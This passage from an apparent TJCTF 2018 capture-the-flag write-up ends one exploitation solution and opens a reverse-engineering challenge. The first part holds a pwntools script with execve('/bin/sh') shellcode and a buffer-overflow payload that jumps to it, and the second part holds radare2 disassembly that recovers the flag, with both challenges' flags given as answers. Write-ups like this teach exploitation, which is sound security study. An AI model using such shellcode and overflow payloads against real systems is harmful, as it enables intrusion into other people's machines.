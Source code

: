 ```python
shellcode = '\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'

payload = 'a'*(5+4) + 'b'*8 + p64(name_addr)

sh.sendlineafter('Name: ', shellcode)
sh.sendlineafter('PIN: ', PIN)

sh.sendlineafter('q - quit\n', 'd')
sh.sendlineafter('PIN: ', payload)

sh.interactive()
```

Flag: `tjctf{d4n6_17_y0u_r0pp3d_m3_:(}`

# Validator - Reverse Engineering

## Problem

Written by evanyeyeye

I found a flag validation [program](/blog/tjctf-2018-writeup/Validator/flagcheck). Do what you want with it.

## Solution

The program first loads a partial flag in to memory and then patches the flag before the comparison:

```
vagrant@ubuntu-bionic:/ctf/tjctf/Validator$ r2 ./flagcheck
 -- Use /m to carve for known magic headers. speedup with search.
[0x08048400]> aaaa
...
[0x08048400]> pdf @ main
/ (fcn) main 310
|   main (int arg_4h);
...
|           0x08048520      c745c8746a63.  mov dword [s1], 0x74636a74  ; 'tjct'
|           0x08048527      c745cc667b6a.  mov dword [local_34h], 0x756a7b66 ; 'f{ju'
|           0x0804852e      c745d035375f.  mov dword [local_30h], 0x635f3735 ; '57_c'
|           0x08048535      c745d4346c6c.  mov dword [local_2ch], 0x5f6c6c34 ; '4ll_'
|           0x0804853c      c745d86d335f.  mov dword [local_28h], 0x725f336d ; 'm3_r'
|           0x08048543      c745dc337633.  mov dword [local_24h], 0x72337633 ; '3v3r'
|           0x0804854a      c745e035335f.  mov dword [local_20h], 0x365f3335 ; '53_6'
|           0x08048551      c745e430645f.  mov dword [local_1ch], 0x665f6430 ; '0d_f'
|           0x08048558      c745e872306d.  mov dword [local_18h], 0x5f6d3072 ; 'r0m_'
|           0x0804855f      c745ec6e3077.  mov dword [local_14h], 0x5f77306e ; 'n0w_'
|           0x08048566      c745f0306e7d.  mov dword [local_10h], 0x7d6e30 ; '0n}'
|           0x0804856d      833802         cmp dword [eax], 2          ; [0x2:4]=-1 ; 2
...
|      ||   0x0804858f      c645db33       mov byte [local_25h], 0x33  ; '3' ; 51
|      ||   0x08048593      c645de33       mov byte [local_22h], 0x33  ; '3' ; 51
|      ||   0x08048597      c645e033       mov byte [local_20h], 0x33  ; '3' ; 51
|      ||   0x0804859b      c645dc35       mov byte [local_24h], 0x35  ; section_end..comment
|      ||   0x0804859f      c645dd72       mov byte [local_23h], 0x72  ; 'r' ; 114
|      ||   0x080485a3      c645e172       mov byte [local_1fh], 0x72  ; 'r' ; 114
|      ||   0x080485a7      c645df76       mov byte [local_21h], 0x76  ; 'v' ; 118
|      ||   0x080485ab      8b45c4         mov eax, dword [s2]
...
```
